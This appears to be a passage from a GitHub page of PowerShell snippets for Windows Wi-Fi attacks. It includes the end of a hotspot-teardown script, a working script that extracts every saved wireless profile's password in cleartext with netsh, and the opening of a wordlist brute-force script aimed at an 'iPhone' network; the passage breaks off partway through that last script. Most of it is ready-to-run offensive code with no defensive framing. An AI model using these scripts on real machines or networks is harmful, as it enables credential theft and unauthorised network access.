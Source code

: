 ```powershell
   Write-Host "ICS wireless hotspot deactivated."
   $cfgpri.DisableSharing()
   $cfgpub.DisableSharing()
   $hoff = netsh wlan stop hostednetwork | Select-String "hosted network stopped"
   if(!$hoff)
   {
      Write-Host "Wireless host mode could not be deactivated."
   }
   $out = netsh wlan set hostednetwork mode=disallow ssid="$ssid"
   Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\WlanSvc\Parameters\HostedNetworkSettings" -Name "HostedNetworkSettings"
   Exit
}
else
{
   Write-Host "Active ICS hotspot not detected."
   Exit
}
```

## >> Retrieving wireless profile passwords using powershell

```powershell
$wp = @()
(((netsh wlan show profiles) | out-string ).split("`r`n")).ForEach({
   if($_ -Like '*All user profile*')
   {
      $t = $_.Split(":")
      $wp += $t[1].trim()
   }
})
Write-Host "SSID -> PSK"
Write-Host "-----------------------------------------"
$wp.foreach({
   $id = $_
   (((netsh wlan show profile "$id" key=clear) | Out-String).Split("`r`n")).ForEach({
   if($_ -Like '*Key content*')
   {
      $pw = ($_.Split(":"))[1].trim()
      Write-Host "$id -> $pw"
   }
})})
```

## >> View wireless networks and signal strength using netsh

```netsh wlan show networks mode=bssid```

## >> Slow on-line brute-force wireless password using powershell

```powershell
$ssid = "iPhone"
$wordlist = @("password",
              "secretkey!",
              "wifiaccess",
              "wifipassword",
              "1234567890",
              "Pa55w0rd")
$xmlfile = "C:\windows\temp\BruteForce.xml"
$pxml = @'
<?xml version="1.0"?>
```